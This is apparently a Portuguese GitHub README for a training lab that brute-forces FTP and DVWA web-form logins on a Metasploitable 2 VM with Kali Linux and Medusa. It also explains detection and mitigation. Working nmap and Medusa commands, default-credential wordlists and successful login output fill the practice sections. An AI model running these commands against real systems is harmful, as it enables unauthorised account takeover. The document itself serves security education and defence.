

# Projeto de Simulação de Ataques de Força Bruta com Kali Linux e Medusa


## Descrição do Projeto
Este projeto tem como objetivo demonstrar a execução de ataques de força bruta utilizando Kali Linux e a ferramenta Medusa contra serviços vulneráveis do Metasploitable 2 e aplicação DVWA (Damn Vulnerable Web Application). O projeto também aborda a configuração do ambiente para testes de segurança, tipos de ataques cibernéticos, vulnerabilidades exploradas e medidas de mitigação para proteger sistemas.

## Objetivos
- Compreender ataques de força bruta em serviços FTP, Web e SMB.
- Utilizar Kali Linux e Medusa para auditoria de segurança em ambiente controlado.
- Documentar processos técnicos de forma clara e estruturada.
- Reconhecer vulnerabilidades comuns e propor medidas de mitigação.
- Disponibilizar a documentação e evidências em repositório GitHub como portfólio técnico.

## Ambiente Configurado
- Duas VMs no VirtualBox:
  - Kali Linux (atacante)
  - Metasploitable 2 (vítima vulnerável)
- Rede configurada como Host-Only para comunicação interna entre as VMs.
- DVWA instalado na Metasploitable 2 para testes em aplicações web.


***
# Entendendo 2 tipos de ataques: Dicionário e Força Bruta

## Ataque de Dicionário
- Usa uma **lista predefinida** de palavras, a "lista do dicionário", com senhas comuns como nomes, datas especiais, palavras populares e variações.
- É eficaz porque muitas pessoas usam senhas previsíveis, e a lista diminui o número de tentativas precisas.

**Como funciona:**
1. O atacante escolhe um alvo.
2. Automatiza tentativas com palavras do dicionário.
3. Quando encontra a senha, acessa o sistema.

### Detecção
- Muitos acessos falhos vindos de um mesmo IP, tentando senhas conhecidas.
- Padrões repetitivos de senhas em relatórios de falhas.

### Mitigação
- Proibir senhas presentes em listas de senhas comuns.
- Usar autenticação multifator para evitar acesso mesmo se a senha for descoberta.
- Monitorar e bloquear automaticamente tentativas repetidas da mesma fonte.

***

## Ataque de Força Bruta
- Testa **todas as combinações possíveis** de caracteres (letras, números, símbolos) sem usar listas.
- Muito mais lento e custoso, pois o espaço de combinações cresce exponencialmente com o tamanho da senha.

**Como funciona:**
1. O invasor inicia tentativas começando de senhas curtas e simples, evoluindo para combinações mais complexas.
2. Usa scripts, GPUs e até redes distribuídas para tentar milhares ou milhões de senhas em paralelo.

### Detecção
- Alto volume de tentativas aleatórias e sem padrão definido.
- Tentativas de senhas de tamanho crescente e variações extensas.

### Mitigação
- Limitar tentativas simultâneas e implementar bloqueio progressivo (delay ou bloqueio após várias tentativas).
- Exigir senhas longas e complexas para aumentar o tempo necessário para um ataque bem-sucedido.
- Ativar autenticação multifator.

***

## Diferenças principais
- **Dicionário:** usa lista de palavras conhecidas, mais rápido e eficiente contra senhas comuns.
- **Força bruta:** tenta tudo possível, bom para senhas fortes, mas muito mais lento.

## Resumo
| Aspecto           | Ataque de Dicionário                 | Ataque de Força Bruta                 |
|-------------------|------------------------------------|-------------------------------------|
| Método            | Tenta senhas de uma lista prévia   | Tenta todas as combinações possíveis|
| Velocidade        | Mais rápido                        | Mais lento                          |
| Efetividade       | Bom contra senhas fracas e comuns | Pode quebrar senhas únicas, mas leva muito tempo|
| Detecção          | Padrão de senhas repetidas          | Volume alto e combinações aleatórias|

***

# Prática:

# Simulação Ética de Ataque de Força Bruta FTP com Medusa

## 1) Enumeração com nmap (portas 21,22,80,139,445)
   
  Comando: nmap -sV -p 21,22,80,139,445 192.168.10.3 
   ### varre as portas específicas com detecção de versão 


O que fazem os parâmetros:

nmap → Programa de varredura de portas e enumeração de rede.

-p 21,22,80,139,445 → varre apenas essas portas.

-sV → tenta descobrir versão do serviço.


### Exemplo de saída:

──(kali㉿kali)-[~]
└─$ nmap -sV -p 21,22,80,139,445 192.168.10.3                         
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-07 17:12 EDT
Nmap scan report for 192.168.10.3
Host is up (0.0027s latency).

PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 192.168.10.4
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)


 ## 2) Lista de contas / senhas para teste (wordlists simples)

Crie dois arquivos (um para usuários, outro para senhas). 
### users.txt
┌──(kali㉿kali)-[~]
└─$ mkdir -p ~/wordlists   
                                                                                                                                
                                                                                                                                                                                            
┌──(kali㉿kali)-[~]
└─$ cat > ~/wordlists/users.txt <<'EOF'
msfadmin
root
admin
user
test
guest
ftp
anonymous
tom
backup
EOF
                                                                                                                                 
### passwords.txt
cat > ~/wordlists/passwords.txt <<'EOF'
msfadmin
msf
toor
root
admin
password
123456
test
guest
ftp
EOF

## 3) Brute-force/enumeração com Medusa (FTP)

Instalação (se necessário):

sudo apt update

sudo apt install medusa -y

### Comando Medusa para FTP, usando listas criadas:
medusa -h 192.168.10.3 -U ~/wordlists/users.txt -P ~/wordlists/passwords.txt -M ftp -t 6 -f

O que significam as flags:

-h → alvo (IP).

-U → lista de usuários (um por linha).

-P → lista de senhas.

-M ftp → módulo/serviço FTP.

-t 6 → número de threads concorrentes (ajuste conforme CPU/rede).

-f → parar o ataque quando encontrar uma credencial válida para um usuário.

### Exemplo de saída esperada quando encontra credenciais:

┌──(kali㉿kali)-[~/wordlists]
└─$ medusa -h 192.168.10.3 -U ~/wordlists/users.txt -P ~/wordlists/passwords.txt -M ftp -t 6 -f

Medusa v2.3 [http://www.foofus.net] (C) JoMo-Kun / Foofus Networks <jmk@foofus.net>

2025-10-07 17:50:37 ACCOUNT CHECK: [ftp] Host: 192.168.10.3 (1 of 1, 0 complete) User: msfadmin (1 of 10, 0 complete) Password: msfadmin (1 of 10 complete)
#### 2025-10-07 17:50:37 ACCOUNT FOUND: [ftp] Host: 192.168.10.3 User: msfadmin Password: msfadmin [SUCCESS]
2025-10-07 17:50:38 ACCOUNT CHECK: [ftp] Host: 192.168.10.3 (1 of 1, 0 complete) User: msfadmin (1 of 10, 1 complete) Password: admin (2 of 10 complete)
2025-10-07 17:50:38 ACCOUNT CHECK: [ftp] Host: 192.168.10.3 (1 of 1, 0 complete) User: msfadmin (1 of 10, 1 complete) Password: password (3 of 10 complete)
2025-10-07 17:50:38 ACCOUNT CHECK: [ftp] Host: 192.168.10.3 (1 of 1, 0 complete) User: msfadmin (1 of 10, 1 complete) Password: msf (4 of 10 complete)
2025-10-07 17:50:40 ACCOUNT CHECK: [ftp] Host: 192.168.10.3 (1 of 1, 0 complete) User: msfadmin (1 of 10, 1 complete) Password: root (5 of 10 complete)
2025-10-07 17:50:40 ACCOUNT CHECK: [ftp] Host: 192.168.10.3 (1 of 1, 0 complete) User: msfadmin (1 of 10, 1 complete) Password: toor (6 of 10 complete)
                                                                                                                                                                                            
┌──(kali㉿kali)-[~/wordlists]
└─$ 

## 4) Teste de conexão FTP com as credenciais encontradas

Suponha que o medusa retornou msfadmin:msfadmin. Teste com um cliente FTP simples.

Modo interativo (ftp client):

Comando: ftp 192.168.10.3
### quando pedir:
Name (192.168.10.3:youruser): msfadmin
Password: msfadmin

### Exemplo de Saída esperada:

┌──(kali㉿kali)-[~/wordlists]
└─$ ftp 192.168.10.3
Connected to 192.168.10.3.
220 (vsFTPd 2.3.4)
Name (192.168.10.3:kali): msfadmin
331 Please specify the password.
Password: 
#### 230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> 
 
***
***


---
# Ataque de automação de tentativas em formulário web

## O que é

O **ataque de automação de tentativas** ocorre quando um invasor usa **scripts ou ferramentas automáticas** para enviar múltiplas requisições a um **formulário web** (como login, cadastro ou recuperação de senha).
No **DVWA**, esse tipo de teste serve para demonstrar vulnerabilidades de **força bruta** e **enumeração de usuários**.

**Objetivos comuns:**

* Tentar várias senhas automaticamente (força bruta / dicionário)
* Descobrir usuários válidos
* Inundar o sistema com requisições (negação de serviço leve)

---

##  Como detectar

Procure padrões anormais em logs de aplicação, firewall ou WAF:

* Muitas requisições `POST` para `/login` em poucos segundos
* Mesmo IP ou user-agent fazendo dezenas de tentativas
* Respostas 401 / 403 / 429 repetidas
* Erros de autenticação em série
* Intervalos curtos e regulares entre tentativas (robô)
* Falhas de CAPTCHA ou ausência de token CSRF

 **Exemplo de alerta (SIEM):**

> “Mais de 30 requisições POST /login do mesmo IP em 1 minuto”

---

##  Como mitigar (defesa em camadas)

### 1. Rate Limiting

Limite o número de requisições por IP/usuário em curto tempo.
Exemplo Nginx:

```nginx
limit_req_zone $binary_remote_addr zone=login:10m rate=10r/m;
```

### 2. CAPTCHA ou desafio adaptativo

Peça verificação humana (CAPTCHA) após várias tentativas falhas.

### 3. Bloqueio e atraso progressivo

* Bloquear IP por tempo curto após X falhas
* Inserir atraso (2s, 5s, 10s) entre tentativas

### 4. CSRF Token e Honeypot

* Exigir **token CSRF** válido no formulário
* Adicionar **campo oculto** que bots tendem a preencher (honeypot)

### 5. WAF e monitoramento

* Ativar regras de detecção de automação (OWASP CRS, ModSecurity)
* Monitorar logs e criar alertas automáticos em SIEM (Ex: Splunk, ELK)

### 6. Boas práticas de autenticação

* Mensagens de erro genéricas (“Usuário ou senha incorretos”)
* Exigir MFA (autenticação de dois fatores)
* Bloquear senhas fracas e senhas vazadas

---

##  Resumo rápido

| Fase                     | Ação do atacante                       | Como detectar               | Como mitigar                                 |
| ------------------------ | -------------------------------------- | --------------------------- | -------------------------------------------- |
| Automação de requisições | Muitos POSTs no mesmo formulário       | Picos em logs, IP repetido  | Rate limit, CAPTCHA, bloqueio temporário     |
| Enumeração de usuários   | Mensagens diferentes para login errado | Respostas variadas no login | Mensagens genéricas, atrasos                 |
| Força bruta              | Tentativas rápidas e seguidas          | Erros 401 em série          | Atraso progressivo, MFA, bloqueio adaptativo |

---
***
# Prática:

# Simulação Ética de Ataque de Força Bruta em DVWA usando Medusa no Kali Linux

## Cenário
- Kali Linux (atacante) IP: 192.168.10.4
- Metasploitable 2 com DVWA (vítima) IP: 192.168.10.3
- Wordlists em:
  - Usuários: `~/wordlists/users.txt`
  - Senhas: `~/wordlists/passwords.txt`

## Objetivo
Realizar um ataque de força bruta ético no formulário de login do DVWA usando o Medusa para testar credenciais em múltiplos usuários e senhas, simulando um pentest em ambiente controlado.

***

## Passos para executar o ataque

### 1. Conhecer o formulário de login do DVWA
- O DVWA roda em: http://192.168.10.3/dvwa/login.php
- Formulário com campos usuais: `username` e `password`
- Mensagem exibida em login inválido, por exemplo: "Login failed" — esta mensagem será usada para controle de sucesso/falha em Medusa


### 2. Sintaxe base do Medusa para ataque HTTP formulário

```bash
medusa -h 192.168.10.3 \
       -U ~/wordlists/users.txt \
       -P ~/wordlists/passwords.txt \
       -M http \
       -m FORM:'/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:F=Login failed' \
       -t 10
```

### Explicando cada parte do comando:
- `-h 192.168.10.3` : IP do alvo (VM Metasploitable 2/DVWA)
- `-U ~/wordlists/users.txt` : arquivo com lista de usuários
- `-P ~/wordlists/passwords.txt` : arquivo com lista de senhas
- `-M http` : módulo de serviço HTTP (web)
- `-m FORM:'/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:F=Login failed'` : especifica a forma do formulário
  - `/dvwa/login.php` : página alvo do POST
  - `username=^USER^&password=^PASS^&Login=Login` : pares campo=valor, onde `^USER^` e `^PASS^` serão substituídos pelas tentativas
  - `F=Login failed` : string na resposta HTTP que indica falha de login (Medusa sabe quando parar essa tentativa)
- `-t 10` : número de threads paralelas para acelerar o ataque

### 3. Como interpretar resultados
- Medusa irá indicar no terminal quando encontrar combinações válidas usuário/senha
- Anote esses dados para relatório e testes de acesso

### 4. Recomendações éticas e de segurança
- Esse teste deve ser feito somente em ambiente controlado com permissão explícita
- Nunca rode esse tipo de ataque contra sistemas reais sem autorização
- Use para aprendizado, fortalecimento e validação de segurança

***

## Exemplo prático completo

Executar no Kali Linux:


medusa -h 192.168.10.3 \
       -U ~/wordlists/users.txt \
       -P ~/wordlists/passwords.txt \
       -M http \
       -m FORM:'/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:F=Login failed' \
       -t 10

Vai iniciar as tentativas de login brute force no formulário do DVWA, testando todos os usuários e senhas de suas wordlists.

Quando liberar acesso, Medusa imprime mensagem de sucesso.




